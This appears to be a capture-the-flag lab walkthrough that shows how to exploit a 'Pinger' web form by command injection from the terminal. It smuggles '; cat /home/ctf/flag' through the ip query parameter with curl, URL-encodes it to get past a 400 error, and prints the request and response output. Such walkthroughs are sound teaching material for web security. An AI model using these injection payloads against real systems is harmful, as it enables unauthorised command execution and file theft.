 # One More Pinger

That was simple.
Now it's time for a more difficult use case of query parameters.
Yes, it's "Pinger" again.
But this time, you'll solve it **entirely from the terminal**.

First, get the HTML content of the website:

```html
root@kali:~# curl http://141.85.224.70:8069/pinger

<html>

    <head>
        <title>Pinger</title>
    </head>

    <h2>My purpose is simple: I check the availability of network hosts by pinging their IP. Use the text box below to give me an IP to ping.</h2>

    <form action="/ping" method="get">
        IP: <input type="text" name="ip"></br>
        <input type="submit" value="Submit">
    </form>


</html>
```

The IP is retrieved from the user via this `form`:

```html
<form action="/ping" method="get">
    IP: <input type="text" name="ip"></br>
    <input type="submit" value="Submit">
</form>
```

From here we get the following information:

- upon pressing "Submit", a `GET` request is sent to `/ping`
- the input we provide is set as the value of the key `ip`

So a request URL that gets the flag would look like this:

```console
GET /ping?ip=; cat /home/ctf/flag
```

Let's try to do this with `curl`:

```console
root@kali:~# curl -v -G -d 'ip=; cat /home/ctf/flag' http://141.85.224.70:8069/ping
*   Trying 141.85.224.70:8069...
* TCP_NODELAY set
* Connected to 141.85.224.70 (141.85.224.70) port 8069 (#0)
> GET /ping?ip=; cat /home/ctf/flag HTTP/1.1
> Host: 141.85.224.70:8069
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 400 Bad Request
[...]
```

Why does the request fail?
Look at the request:

```console
GET /ping?ip=; cat /home/ctf/flag HTTP/1.1
```

The value of the query parameter `ip` contains some forbidden characters: `;`, `/` and space.
We need to send them encoded for URLs.
For this we use the `--data-urlencode` parameter for `curl`:

```console
root@kali:~# curl -v -G --data-urlencode 'ip=; cat /home/ctf/flag' http://141.85.224.70:8069/ping
*   Trying 141.85.224.70:8069...
* TCP_NODELAY set
* Connected to 141.85.224.70 (141.85.224.70) port 8069 (#0)
> GET /ping?ip=%3B%20cat%20%2Fhome%2Fctf%2Fflag HTTP/1.1
> Host: 141.85.224.70:8069
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
[...]
```

Notice that now the value of `ip` looks stranger: `ip=%3B%20cat%20%2Fhome%2Fctf%2Fflag`:

- `%3B` is the URL encoding for `;`
- `%20` is the URL encoding for space
- `%2F` is the URL encoding for `/`
